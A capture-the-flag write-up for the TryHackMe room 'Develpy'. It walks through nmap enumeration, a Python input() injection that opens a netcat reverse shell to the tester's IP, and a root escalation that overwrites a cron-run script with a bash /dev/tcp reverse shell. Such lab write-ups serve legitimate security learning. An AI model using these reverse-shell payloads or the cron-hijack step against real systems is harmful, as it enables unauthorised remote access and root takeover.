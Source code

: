 # 38 - Develpy (python input function exploitation)

Room Link --> [https://tryhackme.com/room/bsidesgtdevelpy](https://tryhackme.com/room/bsidesgtdevelpy)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv 10.10.255.206 -p- -T5 -sV

22/tcp    open  ssh   syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
10000/tcp open        snet-sensor-mgmt? syn-ack
```
{% endcode %}

I tried navigating to : `http://10.10.255.206:10000`

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see our input is passed into the python "input" function, meaning we can just enter our rev shell exploit to gain reverse shell.

We can use netcat also.

[https://intx0x80.blogspot.com/2017/05/python-input-vulnerability\_25.html](https://intx0x80.blogspot.com/2017/05/python-input-vulnerability\_25.html)

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc 10.10.255.206

# enter this to get rev shell, make sure nc is listening.
__import__("os").system("nc -e /bin/sh 10.18.88.214 4242")
```
{% endcode %}

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>We got shell</p></figcaption></figure>

### Priv Esc

`cat /etc/crontab`&#x20;

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

There are 3 jobs running every minute.

We can repace the "root.sh" with our own that contains a reverse shell, and setup nc listener so when the job is runn we can get rev shell as root user.

```
rm root.sh
echo 'bash -i >& /dev/tcp/10.18.88.214/2234 0>&1' > root.sh
```

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



Immediately we get root shell.

Done !

